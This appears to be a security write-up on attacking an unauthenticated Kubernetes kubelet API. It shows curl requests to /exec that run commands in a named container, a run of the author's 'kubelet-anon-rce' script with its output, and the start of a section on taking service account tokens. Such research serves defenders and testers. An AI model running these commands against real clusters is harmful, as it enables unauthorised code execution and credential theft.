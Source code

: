 ```
```

### Running Commands in Containers

A template request to run a command in a container is shown below:

```
$ curl -Gks https://worker:10250/exec/{namespace}/{pod}/{container} \
  -d 'input=1' -d 'output=1' -d 'tty=1'                             \
  -d 'command=ls' -d 'command=/'
```

It should be noted that the `command` is passed as an array (split by spaces) and that the above is a GET request.

Target `{namespace}`, `{pod}` and `{container}` values can be obtained from the `/pods` endpoint as shown in the previous section. For example, to run `ls /` in the `tiller` container the request would be:

```
$ curl -Gks https://worker:10250/exec/kube-system/tiller-797d1b1234-gb6qt/tiller \
  -d 'input=1' -d 'output=1' -d 'tty=1'                                          \
  -d 'command=ls' -d 'command=/'

<a href="/cri/exec/CLgtq03G">Found</a>.
```

The request returns 302 redirect with a link to a stream that should be read with a websocket.

The author's [`kubelet-anon-rce`](https://github.com/serain/kubelet-anon-rce) script automates issuing a command and streaming the response:

```
$ python3 kubelet-anon-rce.py           \
          --node worker                 \
          --namespace kube-system       \
          --pod tiller-797d1b1234-gb6qt \
          --container tiller            \
          --exec "ls /"

bin  etc   lib	  mnt  proc  run   selinux  sys  usr
dev  home  lib64  opt  root  sbin  srv	    tmp  var
```

## Obtaining Service Account Tokens

The Kubernetes [documentation](https://kubernetes.io/docs/tasks/configure-pod-container/configure-service-account/) states that pods are assigned a Service Account by default:

```
When you create a pod, if you do not specify a service account,
it is automatically assigned the default service account in the
same namespace. [...]

You can access the API from inside a pod using automatically
mounted service account credentials, as described in Accessing
the Cluster. The API permissions of the service account depend
on the authorization plugin and policy in use.
```
